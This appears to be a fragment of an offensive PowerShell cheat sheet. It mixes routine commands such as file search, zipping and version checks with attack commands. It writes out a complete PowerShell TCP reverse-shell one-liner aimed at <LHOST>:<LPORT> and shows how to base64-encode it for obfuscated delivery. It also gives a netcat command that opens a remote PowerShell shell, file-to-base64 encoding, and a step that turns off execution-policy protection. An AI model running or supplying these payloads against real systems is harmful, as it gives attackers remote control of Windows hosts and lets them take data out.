 #### Search for Files

```cmd
PS C:\> type <FILE> | findstr /l <STRING>
```

#### Create Base64 Blob of a File

```cmd
PS C:\> [convert]::ToBase64String((Get-Content -path "<FILE>" -Encoding byte))
```

#### Base64 Encoding using pwsh

```console
$ pwsh
PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("<LHOST>",<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
PS> $EncodedText =[Convert]::ToBase64String($Bytes)
PS> $EncodedText
```

#### Import Module to PowerShell cmdlet

```cmd
PS C:\> Import-Module .\<FILE>
```

#### Create a .zip File

```cmd
PS C:\> Compress-Archive -LiteralPath C:\PATH\TO\FOLDER\<FOLDER> -DestinationPath C:\PATH\TO\FILE<FILE>.zip
```

#### Unzip a File

```cmd
PS C:\> Expand-Archive -Force <FILE>.zip
```

#### Start a new Process

```cmd
PS C:\> Start-Process -FilePath "C:\nc64.exe" -ArgumentList "<LHOST> <LPORT> -e powershell"
```

#### Check PowerShell Versions

```cmd
PS C:\> Set-ExecutionPolicy Unrestricted
PS C:\> powershell -Command "$PSVersionTable.PSVersion"
PS C:\> powershell -c "[Environment]::Is64BitProcess"
```


[localhost]: PS C:\Users\<USERNAME>\Documents> whoami